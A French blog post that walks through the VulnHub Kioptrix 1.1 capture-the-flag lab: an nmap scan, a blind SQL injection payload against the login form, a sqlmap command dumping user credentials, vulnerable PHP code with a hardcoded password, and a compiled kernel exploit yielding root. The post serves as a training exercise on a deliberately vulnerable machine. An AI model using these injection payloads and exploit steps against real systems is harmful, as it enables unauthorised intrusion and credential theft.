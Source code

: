 # Solution du CTF Kioptrix: 1.1 de VulnHub

Après un temps... quelque peu plus long que prévu, *SourceForge* a pu régler les derniers bugs provoqués par sa mise à jour et je peux enfin poster à nouveaux des articles.  

Comme prévu les walkthroughs à venir concernent la saga *Kioptrix*, ici il s'agit de [l'épisode 1.1](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) qui est bien le second et non une mise à jour du premier.  

Web exploitation 101
--------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            681/udp  status
|_  100024  1            684/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2018-02-13T20:41:56+00:00; +4h59m59s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
684/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
```

Le site web dispose d'une page de login très basique (champs user, password, bouton submit). *Wapiti* n'en fait qu'une bouchée :  

```plain
[*] Lancement du module blindsql
---
Faille d'injection SQL en aveugle dans http://192.168.1.39/index.php via une injection dans le paramètre uname
Evil request:
    POST /index.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    uname=%27%20or%20benchmark%2810000000%2CMD5%281%29%29%231&psw=letmein&btnLogin=Login
---
```

On enchaîne avec *sqlmap*, son meilleur ami :  

```bash
python sqlmap.py -u http://192.168.1.39/index.php --data "uname=Administrator&psw=test&btnLogin=Login" --risk 3 --level 5
```

Après avoir obtenu le nom de la base de données et des tables intéressantes on peut dumper le contenu de la table users avec *-D webapp -T users --dump*  

```plain
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

Avec ces identifiants on peut passer la page de login et on tombe sur une classique faille d'exécution de commande :  

![Kioptrix 1.1 ping command execution](https://raw.githubusercontent.com/devl00p/blog/master/images/kioptrix/kioptrix2.png)  

On en profite pour chercher quelques identifiants :  

```php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
```

20CentOS
--------

Les identifiants ne permettent pas d'accéder aux comptes présents (*harold* et *john*) mais comme c'est un *Kioptrix* il suffit de chercher le bon exploit pour le système :  

```plain
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

Ce qui nous amène à [une faille](https://www.exploit-db.com/exploits/9542/) découverte par *Tavis Ormandy* et *Julien Tinnes* touchant le kernel.  

```plain
bash-3.00$ gcc -o sploit sploit.c
gcc -o sploit sploit.c
sploit.c:109:28: warning: no newline at end of file
bash-3.00$ ./sploit
./sploit
sh-3.00# id
id
uid=0(root) gid=0(root) groups=48(apache)
```

Au suivant !  


*Published February 22 2018 at 12:13*